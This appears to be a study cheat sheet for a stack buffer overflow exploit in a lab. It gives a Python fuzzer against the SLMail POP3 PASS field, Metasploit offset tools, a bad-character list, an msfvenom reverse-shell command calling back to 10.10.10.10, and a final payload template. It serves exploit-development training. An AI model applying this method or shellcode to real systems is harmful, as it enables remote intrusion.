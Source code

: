 #BUFFER OVERFLOW

## 1- SPIKING

generic_send_tcp 10.10.10.10 9999 stats.spk 0 0

{stats.spk}
s_readline();
s_string("STATS );
s_string_variable("0")

RESULT: SEGMENTATION FAULT

## 2- TEST SIZES
``` 
#!/usr/bin/python
import socket
# Script for Fuzzing SLMail POP3 Service's PASS Parameter
counter = 100
while counter <= 3500:
	try:
		buffer = "A" * counter

		print "Fuzzing PASS with %s bytes" % len(buffer)

		s=socket.socket(socket.AF_INET, socket.SOCK_STREAM)
		s.settimeout(30)
		connect=s.connect(('192.168.1.200',110))
		s.recv(1024)

		s.send('USER test\r\n')
		s.recv(1024)
	
		s.send('PASS ' + buffer + '\r\n')
	
		s.send('QUIT\r\n')
		s.close()
		counter = counter + 200
	except socket.timeout:
		print "\nCrash Byte of PASS Parameter: %s" %  (len(buffer)-200)
		exit(0)

```

RESULT: EIP OVERWRITE WITH "A" (41414141)

## 3- LOCATE OFFSET 

{PATTERN_CREATE}
/usr/share/metasploit-framework/tools/exploit/pattern_create.rb -l <length>

RESULT: EIP VALUE

{PATTERN_OFFSET}
/usr/share/metasploit-framework/tools/exploit/pattern_offset.rb -l <length> -q [EIP VALUE]
  
RESULT: OFFSET

## 4- VERIFY EIP CONTROL

PAYLOAD = A*[OFFSET] + B*4 + C*[FILL VALUE]

RESULT: EIP OVERWRITE WITH "B" = 42424242

## 5- SHELLCODE SPACE

TEST SOME LENGTHS FOR "C":

PAYLOAD = A*[OFFSET] + B*4 + C*[FILL SIZE 1] ==> EIP IS NOT 42424242

PAYLOAD = A*[OFFSET] + B*4 + C*[FILL SIZE 2] ==> EIP 424242

RESULT: FILL SIZE

## 6- BADCHARS

"\x01\x02\x03\x04\x05\x06\x07\x08\x09\x0a\x0b\x0c\x0d\x0e\x0f\x10\x11\x12\x13\x14\x15\x16\x17\x18\x19\x1a\x1b\x1c\x1d\x1e\x1f\x20\x21\x22\x23\x24\x25\x26\x27\x28\x29\x2a\x2b\x2c\x2d\x2e\x2f\x30\x31\x32\x33\x34\x35\x36\x37\x38\x39\x3a\x3b\x3c\x3d\x3e\x3f\x40\x41\x42\x43\x44\x45\x46\x47\x48\x49\x4a\x4b\x4c\x4d\x4e\x4f\x50\x51\x52\x53\x54\x55\x56\x57\x58\x59\x5a\x5b\x5c\x5d\x5e\x5f\x60\x61\x62\x63\x64\x65\x66\x67\x68\x69\x6a\x6b\x6c\x6d\x6e\x6f\x70\x71\x72\x73\x74\x75\x76\x77\x78\x79\x7a\x7b\x7c\x7d\x7e\x7f\x80\x81\x82\x83\x84\x85\x86\x87\x88\x89\x8a\x8b\x8c\x8d\x8e\x8f\x90\x91\x92\x93\x94\x95\x96\x97\x98\x99\x9a\x9b\x9c\x9d\x9e\x9f\xa0\xa1\xa2\xa3\xa4\xa5\xa6\xa7\xa8\xa9\xaa\xab\xac\xad\xae\xaf\xb0\xb1\xb2\xb3\xb4\xb5\xb6\xb7\xb8\xb9\xba\xbb\xbc\xbd\xbe\xbf\xc0\xc1\xc2\xc3\xc4\xc5\xc6\xc7\xc8\xc9\xca\xcb\xcc\xcd\xce\xcf\xd0\xd1\xd2\xd3\xd4\xd5\xd6\xd7\xd8\xd9\xda\xdb\xdc\xdd\xde\xdf\xe0\xe1\xe2\xe3\xe4\xe5\xe6\xe7\xe8\xe9\xea\xeb\xec\xed\xee\xef\xf0\xf1\xf2\xf3\xf4\xf5\xf6\xf7\xf8\xf9\xfa\xfb\xfc\xfd\xfe\xff"

"A"*OFFSET + "B"*4 + BADCHARS + C*[FILL SIZE]

## 7- GENERATE SHELLCODE

msfvenom -p windows/shell/reverse_tcp LPORT=4444 LHOST=10.10.10.10 -b "\x00\x0a\x0d\x20" –e x86/shikata_ga_nai -f c

RESULT: SHELLCODE

## 8- LOCATE JMP JUMP

!mona modules (look for modules without protection)

RESULT: JMP ESP

## 9- COMPOSE FINAL EXPLOIT

payload = "\x41" * <length> + <ret_address> + "\x90" * 16 + <shellcode> + "\x43" * <remaining_length>

